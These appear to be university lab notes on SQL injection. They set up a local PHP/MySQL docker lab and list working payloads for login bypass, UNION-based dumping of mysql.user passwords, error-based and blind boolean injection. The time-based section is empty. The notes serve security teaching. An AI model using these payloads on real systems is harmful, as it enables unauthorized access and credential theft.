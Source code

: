 # SQL Injections

# Setup 

## Install PHP MySQL module
sudo apt install php-mysql
or php[version]-mysql (e.g., php8.1-mysql)

### Check if the module was installed
php -m -> should return msqli

## Run a mysql docker image:
sudo docker run --name mysql-container -e MYSQL_ROOT_PASSWORD=pass -p 3006:3306 mysql

## Inspect the address:
sudo docker inspect mysql-container | grep IPAddress

## Connect as root:
mysql -h 172.17.0.2 -u root -p

## Seeding the Database:
To fill the database, you could either run commands one by one from the MySQL client, or take the seed.sql file as an input (the file can be found on AulaWeb, along with the other files for the login application).

!!! Da fuori mysql
mysql -h 172.17.0.2 -u root -p < seed.sql;

## Login page
Copy or create the login page that can be found on AulaWeb

## Run the server
php -S localhost:<port>

# Standard SQL-Injection Attacks
If we know the username:
- username: <username>' -- -
- password: anything

If we don't know the username:
- username: any
- password: a' OR 1

To inject also in the (num_rows === 1) case:
- username: any
- password: a' OR 1 LIMIT <offset>,1 -- -

To inject also without single quotes:
- username: \
- password: or 1 LIMIT <offset>,1 -- -

# Union-Based SQL-Injection Attacks

- username: Arthur’ UNION ALL SELECT user AS username, null AS id, password AS password,NULL FROM mysql.user -- -

# Error-Based SQL-Injection Attacks

- username: Arthur’ AND 
            ExtractValue(0, CONCAT( 0x5c, User() ) ) -- -

# Blind Boolean-Based SQL-Injection Attacks

- id:   1 AND (X)
        1 AND LENGTH(password)=<value>
        1 AND MID(password,<offset>,1)=<value> 

# Blind Time-Based SQL-Injection Attacks

